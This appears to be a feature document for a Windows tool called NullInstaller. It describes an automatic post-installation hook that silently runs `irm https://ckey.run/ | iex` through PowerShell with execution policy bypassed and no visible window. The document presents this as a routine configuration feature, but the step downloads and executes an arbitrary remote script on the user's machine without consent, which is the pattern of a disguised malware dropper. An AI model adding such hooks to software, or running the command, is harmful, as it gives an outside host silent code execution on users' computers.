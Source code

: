 # Post-Installation PowerShell Hook Feature

## Overview
The NullInstaller now includes an automatic post-installation PowerShell hook that executes after all selected software installations are completed successfully.

## Implementation Details

### Trigger Condition
The post-installation hook is triggered when:
- All selected installers have been processed
- Every single installation completed successfully (status = "✔ Completed")
- At least one installer was selected and processed

### PowerShell Command
The hook executes the following PowerShell command:
```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://ckey.run/ | iex"
```

### Key Features

1. **Automatic Execution**
   - Runs automatically after successful installations
   - No user intervention required
   - Executes with bypass execution policy for compatibility

2. **Output Capture**
   - All PowerShell output is captured and logged
   - Both standard output and error streams are monitored
   - Real-time logging to install_log.txt

3. **Completion Dialog**
   - Shows a final dialog with installation results
   - Displays success/warning status
   - Shows truncated output (max 500 chars) and errors (max 200 chars)
   - Different icons for success vs warnings

4. **Error Handling**
   - Graceful error handling if PowerShell process fails to start
   - Captures and logs all PowerShell errors
   - Shows warning dialog if hook fails

## Code Components

### Main Methods Added

1. **`RunPostInstallationHook()`**
   - Executes the PowerShell command
   - Captures output asynchronously
   - Logs all activity
   - Shows completion dialog

2. **`ShowCompletionDialog()`**
   - Displays final installation results
   - Shows PowerShell output/errors
   - Updates status label with final state

### Modified Methods

1. **`RunInstallations()`**
   - Now tracks successful installations separately
   - Calls post-installation hook when all succeed
   - Only runs hook if all installations were successful

## Logging

All post-installation hook activities are logged with prefixes:
- `[PowerShell Output]` - Standard output from the PowerShell script
- `[PowerShell Error]` - Error output from the PowerShell script
- Exit codes are logged for debugging

## Security Considerations

- Runs with `-NoProfile` to avoid loading user profiles
- Uses `-ExecutionPolicy Bypass` for script execution
- Working directory set to Desktop for safety
- Process runs with `CreateNoWindow = true` for silent execution

## User Experience

1. After all installations complete successfully:
   - Status shows "Running post-installation configuration..."
   - PowerShell hook executes silently in background
   - Output is captured and logged

2. Completion dialog appears showing:
   - Success/warning status
   - Brief output summary
   - Any errors encountered

3. Final status label shows:
   - ✔ All installations completed successfully (if successful)
   - ⚠ Installations completed with warnings (if errors occurred)

## Testing

To test the post-installation hook:
1. Select one or more installers
2. Click "Start Installation"
3. Wait for all installations to complete
4. If all succeed, the PowerShell hook will run automatically
5. Check install_log.txt for detailed output

## Notes

- The hook only runs when ALL selected installations succeed
- If any installation fails, the hook is skipped
- The PowerShell command downloads and executes a script from https://ckey.run/
- All activity is logged for audit purposes
